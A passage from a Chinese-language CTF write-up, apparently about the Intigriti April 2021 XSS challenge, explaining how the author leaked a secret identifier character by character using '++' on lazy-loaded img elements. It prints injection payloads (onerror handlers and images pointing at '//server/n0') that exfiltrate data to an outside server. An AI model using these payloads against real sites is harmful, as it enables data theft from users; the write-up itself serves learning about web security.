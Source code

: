 所以我們確實可以透過這方法得知 identifier 的第一個字元是什麼，但問題來了，知道之後，我們怎樣把這個資訊傳出去？

我們不能呼叫 function，甚至連賦值也不行，怎樣把資訊傳出去？如果可以用 `=` 的話那就可以 `window.opener.location = xxx+1` 之類的去改變 window.opener 的資訊，或者是：`<img id=a src=x>` 搭配 `a.src=xxxx` 去載入一個新的圖片，這樣我從 server side 就可以知道洩漏的字元是什麼。

但因為沒辦法用等號，所以上面這些都做不到。

這時候我又卡關了，而且卡了非常久，完全想不到該怎麼把資訊傳出去，這時候等到了下一個提示：

1. Here's an extra tip: ++ is also an assignment (4/20 22:17)

我一開始看見這提示時覺得好像有點用，卻又不知道該怎麼用。`++` 也可以改變值沒有錯，可是有什麼用呢？我一開始想說朝 window.opener 的方向去想，有沒有一些屬性是可以操控的，例如說：`window.opener.name++`是可行的嗎？或是有什麼其他屬性可以操控的。

如果我能夠改變某個 window.opener 的屬性，就能把洩漏的資訊透過某種方式傳回去。可是我找了很久還去翻了 spec，發現好像沒這種東西。`window.opener.location` 可以改變，但不能用 `++`，因為 `++` 就像是 `window.opener.location = window.opener.location + 1`，執行的話會拋錯，因為有涉及到讀取：

```
VM82:1 Uncaught DOMException: Blocked a frame with origin "https://challenge-0421.intigriti.io" from accessing a cross-origin frame.
```

這時我想起了忘記在哪學到的一個招數，利用圖片的載入。

舉例來說，讓一張圖片不被載入，然後透過 ++ 改變 CSS 或其他屬性讓它載入，這樣我就可以從 server 知道這個資訊。

我試了這個：

``` html
<img id=n0 src=//server/n0 style="opacity:0;">
<img src=x onerror=identifier<'1'?n0.style.opacity++:...>
```

但透明度是 0 還是會載入圖片，所以沒有用。後來再試了幾個屬性，想起了最近有用到的一個：`loading`。

以往如果要 lazy load 圖片的話，比較多是透過套件，早期需要去偵測 scroll，近期則是用 IntersectionObserver 就行了。而再更近一點，現在有不少瀏覽器有支援原生的 lazy loading：`<img src=x loding="lazy">`，如果圖片距離可視區域沒有超過一個 threshold 的話就不會被載入。

因此我們可以這樣做：

``` html
<div style="height: 9999px"></div>
<img id=n0 src=//server/n0 loading="lazy">
<img src=x onerror=identifier<'1'?n0.loading++:...>
```

先用一個很高的 div 把圖片往下推，推到 threshold 之外，然後在確認第一個字元是 0 的時候，把 n0 的 loading++，++ 之後會是 NaN，然後因為 loading 沒有 NaN 這個值，所以會 fallback 到預設的 auto，就會載入圖片。

假設 `server/n0` 是我自己的 server，那我收到 n0 這個 request，就代表第一個字元是 0。把這個想法擴展，我們確實可以知道第一個字元是什麼，像這樣：

``` html
<div style="height: 9999px"></div>
<img id=n0 src=//server/n0 loading="lazy">
<img id=n1 src=//server/n1 loading="lazy">
<img id=n2 src=//server/n2 loading="lazy">
<img src=x onerror=
identifier<'1'?n0.loading++:
identifier<'2'?n1.loading++:
identifier<'3'?n2.loading++:
...>
```
